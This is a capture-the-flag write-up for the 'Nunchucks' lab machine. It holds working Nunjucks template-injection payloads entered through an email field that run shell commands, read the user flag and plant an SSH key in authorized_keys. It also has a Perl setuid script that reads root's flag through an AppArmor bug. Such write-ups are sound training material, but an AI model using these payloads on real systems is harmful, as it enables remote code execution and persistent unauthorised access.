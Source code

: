 nunchucks
---

## Steps

1. wfuzz to find subdomain

We find the page `store.nunchucks.htb`

2. SSTI

When entering the email, its vulnerable to SSTI

http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine

Enter as email `{{range.constructor("return global.process.mainModule.require('child_process').execSync('cat /home/david/user.txt')")()}}@email.com`

2. SSH

Enter as email `{{range.constructor("return global.process.mainModule.require('child_process').execSync('mkdir /home/david/.ssh')")()}}@email.com`
Enter as email `{{range.constructor("return global.process.mainModule.require('child_process').execSync('touch /home/david/.ssh/authorized_keys')")()}}@email.com`
Enter as email `{{range.constructor("return global.process.mainModule.require('child_process').execSync('echo <ssh key> >> /home/david/.ssh/authorized_keys')")()}}@email.com`

## Root Flag

1. Trail and Error

Find `/opt/backup.pl`, and it runs `POSIX::setuid(0);`, which means that perl has `setuid` capabilities

https://gtfobins.github.io/gtfobins/perl/#capabilities

but this fails

2. AppArmor bug

https://bugs.launchpad.net/apparmor/+bug/1911431

```
#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);

exec "cat /root/root.txt"
```

```
$ ./a.pl
```
